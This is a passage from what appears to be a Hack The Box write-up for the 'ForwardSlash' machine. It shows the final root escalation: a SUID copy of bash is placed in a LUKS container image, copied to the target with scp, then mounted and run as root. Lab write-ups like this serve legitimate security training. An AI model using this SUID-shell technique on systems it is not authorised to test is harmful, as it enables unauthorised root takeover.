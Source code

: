 Step 5. Then we mount it, then copy bash to it and set the SUID bit
```
# mount /dev/mapper/myluksvol1 /mnt
# cp bash /mnt
# chmod u+s /mnt/bash
# ls -l /mnt
total 1100
-rwsr-xr-x 1 root root 1113504 Apr  5 08:39 bash
drwx------ 2 root root   12288 Apr  5 08:38 lost+found
# umount /mnt
```

Step 6. We then copy the container image to the box
```
root@kali:~/htb/forwardslash# scp luksvolume1 pain@10.10.10.183:/tmp
pain@10.10.10.183's password: 
luksvolume1
```

Step 7. And finally mount the image and execute bash as root

![](/assets/images/htb-writeup-forwardslash/root.png)